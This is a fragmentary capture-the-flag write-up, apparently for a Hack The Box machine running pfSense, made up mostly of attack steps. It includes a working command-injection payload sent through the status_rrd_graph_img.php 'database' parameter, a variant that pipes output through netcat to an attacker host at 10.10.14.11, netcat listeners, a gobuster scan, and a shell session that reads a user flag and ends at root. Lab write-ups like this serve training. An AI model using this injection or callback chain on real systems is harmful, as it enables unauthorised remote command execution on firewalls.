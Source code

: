 Using script

```
d08c32a5d4f8c8b10e76eb51a69f1a86
# cd ..
# cd /home
# ls
.snap
rohit
# cd rohit
# ls
.tcshrc
user.txt
# cat user.txt
8721327cc232073b40d27d9c17e7348b# 
```
Manual

database=queues;x=$(printf+"\55");echo+$HOME+$x+lol|nc+10.10.14.11+1234 HTTP/1.1


```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 
https://10.10.10.60 -k -x php,txt,conf -t 30 
```

x=$(printf+"\55");
Link for follow

https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/




```
GET /status_rrd_graph_img.php?database=queues;cd+..;+cd+..;cd+..;cd+usr;cd+local;cd+www;echo+"CMD+INJECT">cmd.txt HTTP/1.1
Host: 10.10.10.60
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=56f38d08d3656468ace8ec24e47efcdb; cookie_test=1591553574
Upgrade-Insecure-Requests: 1

```

nc -lvnp 4444 < cmd 
^C

nc -lvnp 1234

root shell